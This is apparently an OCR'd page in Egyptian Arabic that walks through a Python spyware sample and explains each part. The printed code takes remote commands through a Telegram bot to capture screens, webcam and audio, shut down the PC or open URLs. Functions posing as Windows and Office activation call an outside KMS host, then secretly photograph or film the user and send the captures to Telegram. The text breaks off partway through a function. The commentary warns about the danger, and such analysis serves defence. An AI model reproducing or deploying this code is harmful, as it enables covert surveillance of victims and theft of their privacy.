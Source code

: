 ```python
                        send_to_telegram_split(f"📹 جاري تسجيل الشاشة (10 ثوانٍ) على {device_name}...")
                    elif text == "!shutdown":
                        shutdown_pc()
                    elif text.startswith("!open "):
                        url = text.split("!open ", 1)[1].strip()
                        if url:
                            webbrowser.open(url)
                            send_to_telegram_split(f"🌐 تم فتح الرابط على {device_name}: {url}")
                        else:
                            send_to_telegram_split(f"⚠️ يرجى إدخال رابط صالح بعد '!open' على {device_name}")
                    else:
                        send_to_telegram_split(f"⚠️ أمر غير معروف على {device_name}: {text}")
    except Exception as e:
        send_to_telegram_split(f"⚠️ خطأ في جلب الرسائل من Telegram على {device_name}: {str(e)}")
```

- **إيه اللي بيحصل؟**:
  - الكود بيستنى رسايل من تيليجرام كل ثانيتين (بيستخدم دالة `fetch_latest_telegram_message`).
  - لو حد بعت رسالة للبوت، بيشوف الرسالة دي فيها إيه وبينفّذ الأمر:
    - `!screenshot`: بياخد سكرين شوت ويبعتها.
    - `!camera`: بيفتح الكاميرا ويصوّر.
    - `!record_audio`: بيسجّل صوت لـ 5 ثواني.
    - `!record_screen`: بيسجّل الشاشة لـ 10 ثواني.
    - `!shutdown`: بيطفّي الجهاز على طول بأمر `shutdown /s /t 0`.
    - `!open [رابط]`: بيفتح الموقع اللي في الرسالة (زي `!open https://google.com`).
    - لو الرسالة فيها أمر مش معروف، بيبعت رسالة يقول "أمر غير معروف".
  - كل أمر بينفّذه، بيبعت تأكيد لتيليجرام يقول إنه نفّذه.
- **ليه خطير؟**:
  - ده زي ما تكون بدّيت حد مفتاح جهازك. يقدر يصوّرك، يسجّلك، يطفّي جهازك، أو يفتح مواقع خطيرة من غير ما تعرف.

---

#### 8. **تفعيل ويندوز وأوفيس (خدعة)**
```python
def activate_windows():
    output = subprocess.getoutput("cscript //nologo C:\\Windows\\System32\\slmgr.vbs /skms kms.digiboy.ir && cscript //nologo C:\\Windows\\System32\\slmgr.vbs /ato")
    send_to_telegram_split(f"نتيجة تفعيل ويندوز على {device_name}:\n{output}")
    cap = cv2.VideoCapture(0)
    for i in range(10):
        ret, frame = cap.read()
        if ret:
            img_path = os.path.join(tempfile.gettempdir(), f"capture_{i}.jpg")
            cv2.imwrite(img_path, frame)
            send_photo_to_telegram(img_path)
            os.remove(img_path)
            time.sleep(0.1)
    cap.release()

def activate_office():
    def record_and_send():
        while True:
            filename = os.path.join(tempfile.gettempdir(), "office_record.avi")
            cap = cv2.VideoCapture(0)
            fourcc = cv2.VideoWriter_fourcc(*'XVID')
            out = cv2.VideoWriter(filename, fourcc, 20.0, (640, 480))
            start_time = time.time()
            while int(time.time() - start_time) < 60:
                ret, frame = cap.read()
                if ret:
                    out.write(frame)
```